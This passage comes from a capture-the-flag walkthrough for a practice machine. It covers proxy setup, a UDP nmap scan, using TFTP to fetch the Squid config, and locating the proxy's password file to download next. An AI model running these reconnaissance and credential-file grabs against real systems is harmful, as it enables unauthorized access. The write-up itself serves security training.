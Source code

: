 To allow your browser to route through this proxy, assuming mozilla Firefox, navigate to Preferences -Advanced -Connection Settings and edit it to 10.10.10.21 with port 3128 as below, and be sure to remove 127.0.0.1 from `No Proxy for`.

![](https://preview.ibb.co/ekOjw5/proxy.png)

Now visit 127.0.0.1 in your web browser.  Effectively, we're viewing any local websites on the proxy server that might not be serving remotely.  However, we're greeted by a login page for the proxy itself.

![](https://preview.ibb.co/fsjDpQ/login.png)
	
The answer to this problem comes from scanning UDP ports.  Just stick to the default ports and you'll end up with a large list at the end.  In a UDP scan it's likely you'll get a large number of false positives, in which case you simply rerun the scan to confirm which ones are legitimate, as I've done here.
```bash
root@kali:~/Desktop# nmap -sU 10.10.10.21 -p 69,5355

Starting Nmap 7.25BETA1 ( https://nmap.org ) at 2017-08-03 11:23 BST
Nmap scan report for 10.10.10.21
Host is up (0.034s latency).
PORT     STATE         SERVICE
69/udp   open|filtered tftp
5355/udp open|filtered llmnr

Nmap done: 1 IP address (1 host up) scanned in 1.47 seconds
```

Grabbing Files over TFTP
------------------
So lets attack the tftp service.  TFTP doesn't let you read files, but it does give you access to a large number of files on the system.  All we need to do here is grab the squid.conf file.

```bash
root@kali:~# tftp 10.10.10.21
tftpstatus
Connected to 10.10.10.21.
Mode: netascii Verbose: off Tracing: off
Rexmt-interval: 5 seconds, Max-timeout: 25 seconds
tftpget /etc/squid/squid.conf
Received 295428 bytes in 18.3 seconds
```

So lets have a look in this file for any authentication information.
```bash
root@kali:~/Desktop# cat squid.conf | grep kalamari -A 5 -B 5

#
# INSERT YOUR OWN RULE(S) HERE TO ALLOW ACCESS FROM YOUR CLIENTS
#
auth_param basic program /usr/lib/squid/basic_ncsa_auth /etc/squid/passwords
auth_param basic realm kalamari
acl authenticated proxy_auth REQUIRED
http_access allow authenticated

# Example rule allowing access from your local networks.
# Adapt localnet in the ACL section to list your (internal) IP networks
```
I highly recommend using grep to filter through it as it's quite a large file.  Here I'm simply looking for the string 'kalamari' and telling grep to get 5 lines before and after.  In this case I was searching for the realm, from seeing it in the above login.  However, any search for auth, should get you the desired information.  We see Squid is storing it's passwords in /etc/squid/passwords, so lets just download that file in the same way, over tftp.  

